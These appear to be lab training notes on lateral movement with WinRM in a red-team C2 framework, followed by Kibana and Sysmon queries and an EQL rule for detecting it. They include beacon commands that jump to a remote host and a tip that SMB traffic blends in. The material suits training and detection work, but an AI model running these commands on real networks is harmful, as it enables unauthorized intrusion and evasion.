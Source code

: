 The `winrm` and `winrm64` methods can be used as appropriate for 32 and 64-bit targets. There are lots of different ways to determine the architecture of a remote system - one example is to use the `Get-WmiObject` PowerShell cmdlet.
```shell
beacon> getuid
[*] You are DEV\bfarmer

beacon> remote-exec winrm srv-1 (Get-WmiObject Win32_OperatingSystem).OSArchitecture
64-bit
```

When moving laterally between targets, I recommend the SMB Beacon. The SMB protocol is used extensively in a Windows environment, so this traffic blends in very well.
```shell
beacon> jump winrm64 srv-1 smb
[+] established link to child beacon: 10.10.17.25
```

WinRM will return a high integrity Beacon running as the user with which you're interacting with the remote machine as.

![[Pasted image 20220831123207.png]]

There are multiple steps to this technique that we leverage to build a detection mechanism.  We can look for **egress** network connections with a destination port of **5985**.
```shell
event.module : sysmon and event.type : connection and network.direction : egress and destination.port : 5985
```


There's the process start event for `wsmprovhost.exe` (with an `-Embedding` parameter in the command line arguments).
```shell
event.module : sysmon and event.type : process_start and process.command_line : "C:\\Windows\\system32\\wsmprovhost.exe -Embedding"
```

PowerShell logging will also provide the script block and/or transactional log, which tells us exactly what code/commands were executed.  Use the `process.pid` field from the previous query to find its associated script block.
```shell
event.module : powershell and winlog.process.pid: 2984
```

The size of the Beacon PowerShell payload is too large to fit into a single log, so in each message you'll see "Creating Scriptblock text (X of Y)".  Each log can be correlated with the `script_block_id` field, which is a GUID.

To automate this, the Security App has a Rule entitled "WinRM Remote Code Execution".  It uses Event Query Language (EQL) which is great for finding relationships between different events.

![[Pasted image 20220831123252.png]]

>Move laterally to SRV-1 using WinRM and investigate the logs in Kibana.

